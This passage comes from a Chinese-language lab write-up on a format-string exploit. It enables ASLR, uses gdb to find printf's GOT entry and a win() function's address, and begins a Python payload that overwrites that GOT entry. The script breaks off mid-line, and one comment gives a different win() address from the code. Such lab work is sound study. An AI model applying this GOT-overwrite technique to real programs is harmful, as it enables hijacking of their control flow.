# 5 任务3

## 5.1 开启ASLR

开启ASLR:

```bash
sudo sysctl -w kernel.randomize_va_space=2
```

## 5.2 查找got表中printf地址和win函数地址

使用gdb调试

查看got表printf地址：

先看plt表地址为0x8049040

![image-20230520090217970](assets/image-20230520090217970.png)

查看got地址为0x804c004

![image-20230520090256640](assets/image-20230520090256640.png)

查看win函数地址为0x08049186

disas win

![image-20230520090334161](assets/image-20230520090334161.png)

## 5.3 task3_1.py

```python
#!/usr/bin/python3
# task3_1: hook got

# got.printf = 0x804c004
addr = 0x804c004
payload =  (addr + 2).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
payload += (addr).to_bytes(4,byteorder='little')

# the address of win() = 0x08049196
target = 0x08049186
# Construct the format string
offset1 = 0x0804 - 4*3 - 15*8
offset2 = 0x9186 - 0x0804

payload += ("%.8x" * 15 +
```